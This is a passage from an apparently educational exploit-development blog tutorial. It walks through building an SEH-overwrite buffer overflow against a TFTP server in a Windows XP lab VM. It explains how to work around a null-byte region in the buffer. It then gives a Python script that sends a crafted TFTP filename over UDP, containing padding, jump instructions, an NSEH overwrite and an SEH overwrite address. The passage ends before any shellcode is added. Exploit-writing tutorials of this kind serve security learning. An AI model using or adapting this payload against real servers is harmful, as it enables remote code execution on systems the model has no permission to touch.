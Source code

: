 Ok so lets try that now.

[![](https://1.bp.blogspot.com/-P5W2xs8OhcA/UK6N5x2V7xI/AAAAAAAAAH4/GVjAs2SE28c/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_041.png)](https://1.bp.blogspot.com/-P5W2xs8OhcA/UK6N5x2V7xI/AAAAAAAAAH4/GVjAs2SE28c/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_041.png)

:) Seems like we are nearly there. And we are...minus one caveat.

## The Odd Byte Error

If you look in the above screenshot you will see that we have our long string of A's on the left hand side. But if you have been paying attention (or just weren't listening intently to me :P ) you might have noticed that in the lower left window of the screenshot above, at offset `0xE0`, our A's are being turned into 0's. Counting along the line starting at offset `0xE0` reveals that the first instance of the bad byte is the 8th byte in the line. Considering the first byte of this line is at offset `0xE0`, we can say that offset `0xE7` is where the first NULL byte occurs.

`0xE7` in decimal is 231. So after 230 bytes we get a 4 byte space of nulls. So if we prepend 230 bytes of junk before our set of As we should be able to deal with this problem.

Well thats not entirely right. It seems I was two bytes off from the start of the 0's. Lets up our `\x90`'s by 6 (2 for the 2 bytes and then another 4 to cover the null byte space). So we will use 236 bytes of junk instead of 230 so that we fill in the space where the byte get turned into NULLs, and we can get an idea of where our shellcode might sit (aka the remaining space of A's).

```python
import socket

host = "127.0.0.1"
port = 69

filename = "\x90" * 236
filename += "A" * (1492-126-236) # 126 for the space that we jump to. 236 for the space up to and including the 4 byte null space.
filename += "\x83\xC5\x50" * 15
filename += "\xFF\xE5"
filename += "\xCC" * ( 126 - ((15 * 3) + 2) )
filename += "\xeb\x80\x90\x90" # NSEH overwrite
filename += "\x05\x96\x40" # SEH overwrite

mode = "netascii"
data = "\x00\x02" + filename + "\0" + mode + "\0"

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```

[![](https://2.bp.blogspot.com/-1qy_IN3791Q/UK6UV6acVTI/AAAAAAAAAIM/8EEC0Sx8g4Q/s0/Selection_042.png)](https://2.bp.blogspot.com/-1qy_IN3791Q/UK6UV6acVTI/AAAAAAAAAIM/8EEC0Sx8g4Q/s0/Selection_042.png)

Ok so now we have solved that issue. However two problems remain:

* We now have to jump to the beginning of the `\x41`'s and not the `\x90`'s at the beginning. Thus we have to increase our EBP some more to point to the `\x41`'s now.
* We need to generate some shellcode baby!

